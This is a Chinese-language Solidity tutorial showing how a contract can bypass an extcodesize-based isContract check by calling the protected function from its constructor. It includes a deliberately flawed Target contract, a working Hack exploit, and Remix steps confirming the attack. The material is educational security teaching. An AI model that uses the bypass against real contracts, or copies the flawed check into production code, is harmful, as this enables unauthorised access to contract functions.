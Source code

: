 # Bypass Contract Size Check
## 漏洞
如果一个地址是一个合约，那么存储在该地址的代码大小肯定大于0，对吧？

让我们看看如何创建一个代码大小由extcodesize返回的合约等于0的合约。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Target {
    function isContract(address account) public view returns (bool) {
        // 该方法依赖于extcodesize函数，对于正在构建中的合约，该函数返回0，因为代码只在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}

contract FailedAttack {
    // 尝试调用Target.protected将失败，
    // Target阻止从合约调用
    function pwn(address _target) external {
        // 这将失败
        Target(_target).protected();
    }
}

contract Hack {
    bool public isContract;
    address public addr;

    // 当合约正在创建时，代码大小（extcodesize）为0。
    // 这将绕过isContract()检查
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        //这将起作用
        Target(_target).protected();
    }
}
```

## remix验证
1.部署Target合约，调用 isContract函数输入一个合约地址，查看结果
![79-1.png](img/79-1.png)
2.部署FailedAttack合约，调用pwn函数输入上一步的Target合约地址，验证是否成功
![79-2.png](img/79-2.png)
3.部署Hack合约，将Target合约地址作为参数传入构造函数。Hack合约的构造函数调用Target.isContract()方法，但此时Hack合约的代码大小为0，因此isContract()方法返回false。
![79-3.png](img/79-3.png)
4.Hack合约的构造函数调用Target.protected()方法，由于调用者是一个地址而不是合约，因此调用成功并将pwned变量设置为true。查看Target合约的pwned变量，应该为true，说明攻击成功。
![79-4.png](img/79-4.png)